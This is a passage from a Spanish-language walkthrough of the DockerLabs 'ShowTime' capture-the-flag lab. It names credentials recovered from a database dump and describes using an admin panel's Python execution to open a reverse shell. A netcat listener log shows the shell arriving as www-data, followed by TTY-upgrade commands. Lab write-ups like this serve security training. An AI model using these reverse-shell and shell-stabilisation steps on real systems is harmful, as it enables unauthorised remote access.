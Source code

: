 El resultado del **--dump** nos muestra los campos **usuario** y **contraseña** con sus respectivos registros los cuales tendremos en cuenta como possibles credenciales válidas.

Las credenciales correctas son el usuario **joe** y la password **MiClaveEsInhackeable**. Una vez nos logueamos correctamente, tenemos un panel de administración el cual ejecuta comandos python. Sabiendo esto, ejecutaremos una Reverse Shell para ganar acceso remoto.

![Reverse Shell](/assets/post_img/ShowTime/4-PY-REVSH.png)

Desde Kali, recibimos la Reverse Shell obteniendo así el control del usuario **www-data**. Lo siguiente es retomar la metodología tratando la **TTY**:
```bash                                                                  
┌──(kali㉿kali)-[~/…/DockerLabs/Facil/9-ShowTime/deploy]
└─$ sudo nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.0.27] from (UNKNOWN) [172.17.0.3] 58018
$ whoami
whoami
www-data
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@eb67e53c9530:/var/www/html/login_page$ ^Z
zsh: suspended  sudo nc -lvnp 9001

┌──(kali㉿kali)-[~/…/DockerLabs/Facil/9-ShowTime/deploy]
└─$ stty raw -echo; fg
[1]  + continued  sudo nc -lvnp 9001
                                    reset
reset: unknown terminal type unknown
Terminal type? xterm
www-data@eb67e53c9530:/var/www/html/login_page$ export TERM=xterm
www-data@eb67e53c9530:/var/www/html/login_page$ export SHELL=bash
```
